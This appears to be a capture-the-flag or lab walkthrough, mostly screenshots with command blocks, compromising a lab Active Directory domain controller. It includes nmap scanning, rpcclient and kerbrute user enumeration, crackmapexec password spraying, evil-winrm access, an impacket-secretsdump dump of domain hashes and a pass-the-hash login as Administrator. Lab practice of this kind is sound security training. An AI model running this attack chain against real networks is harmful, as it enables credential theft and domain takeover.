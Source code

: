 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03ab72ad-f5ce-4cba-8cfc-4cef30fce25d)
```
ping 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ee180358-9104-4781-b028-c8db297edcd5)
```
nmap -p- 192.168.2.3 -v -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cdb46432-79fe-41c5-be07-fef63c7ea190)
```
ftp 192.168.2.1
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0eb4650a-2635-4810-b63a-d1b30ae59d85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fb1cc7cd-108e-4619-a67b-b370e1c807e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d850e7a-db8e-4091-a359-e7c1594a54ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec6b3d6b-97a9-4440-af9e-cdcbc3259206)
```
rpcclient -U login%pass -c "querydispinfo" 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/75d7b9ad-bcce-49e7-9cc5-7bb1f191534a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aeb599c2-ed92-435b-924e-a750977ca5ff)
```
 nmap -p- 192.168.2.3 -v -sC 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dfd819e-5919-4085-8e8d-9c5b9759cde8)

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/
https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.3 users.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db1c1f14-a345-4d96-a554-502f58dae018)
```
crackmapexec winrm 192.168.2.3 -d codeby.cdb -u users.txt -p 'password'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0651e750-814a-4a26-927b-91fae9393692)
```
evil-winrm -i 192.168.2.3 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c55a09ff-833f-4ad3-9fc5-c4effee3d876)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a87855cf-1906-4349-a14a-de031e97b441)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d5ba939e-86ef-43e7-a21f-03145f892c10)
```
impacket-secretsdump codeby.cdb/aleksey.ibragimov:'PASS'@192.168.2.3 -just-dc
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2a486bea-d2cd-4195-98bf-d3779e0e48e8)
```
evil-winrm -i 192.168.2.3 -u Administrator -H HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2b88467f-2bc3-466e-8d74-6b7475b3c884)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f80ec901-dfd3-4db1-8ada-637789291c80)

